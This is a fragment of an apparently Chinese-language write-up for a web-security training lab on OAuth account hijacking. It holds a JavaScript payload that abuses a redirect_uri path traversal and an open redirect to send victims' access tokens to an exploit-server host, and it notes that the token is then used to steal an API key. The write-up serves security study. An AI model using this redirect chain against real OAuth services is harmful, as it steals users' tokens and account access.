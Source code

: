 ![image-20240628111452287](./images/image-20240628111452287.png)

```java
<script>
    if (!document.location.hash) {
        window.location = 'https://oauth-0a4d006103c4cde88222452802e800e5.oauth-server.net/auth?client_id=zuvm1vumrj7xckovj1d3h&redirect_uri=https://0a8c0023037ccdbc82bc472600f000a5.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-0a67002203ddcd94827646bf019900b4.exploit-server.net/exploit&response_type=token&nonce=399721827&scope=openid%20profile%20email'
    } else {
        window.location = '/?'+document.location.hash.substr(1)
    }
</script>
```

将恶意链接发送给受害者，可以看到我们已经获取了token

![image-20240628151943557](./images/image-20240628151943557.png)

使用token窃取apikey

![image-20240628155917645](./images/image-20240628155917645.png)
